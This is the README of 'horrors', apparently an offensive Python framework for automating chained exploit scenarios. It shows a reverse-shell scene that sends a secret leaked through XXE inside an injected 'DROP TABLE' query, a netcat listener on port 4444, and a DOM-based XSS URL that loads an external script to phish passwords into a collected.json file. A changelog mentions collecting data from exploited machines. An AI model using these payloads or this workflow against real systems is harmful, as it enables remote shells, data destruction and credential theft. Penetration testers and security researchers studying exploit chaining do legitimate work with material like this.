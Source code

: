 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
class ReverseShell(scenarios.Scene):

    async def task(self):
        """Wait for `xxe` state triggered when remote client connects via FTP and sends the secret"""

        await self.http_post(
            'http://{rhost}:{rport}/query/'.format(**self.context),
            'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**self.context)
        )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
}

ftpd = services.FTPReader()
ftpd.add_event('xxe', when=events.DataMatch(r'.+SecretKey=(.+);', in_context='secret'))

story = scenarios.Scenario(context=context, debug=True, http_proxy='http://127.0.0.1:8080')
story.add_service(ftpd)
story.add_scene(ReverseShell, when='xxe')
story.play()
```

## Installation

    $ pip3 install git+https://github.com/tasooshi/horrors

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    examples/vulnchain:$ victim.py
    examples/vulnchain:$ attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    examples/xssphish:$ victim.py
    examples/xssphish:$ attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)

## Changelog

* **2021/12/23** Getting production ready (v0.6)
    * Major refactoring and backward incompatible changes
    * Added unit tests
    * Replaced Flask with Sanic framework
    * Scenes are now class-based
* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
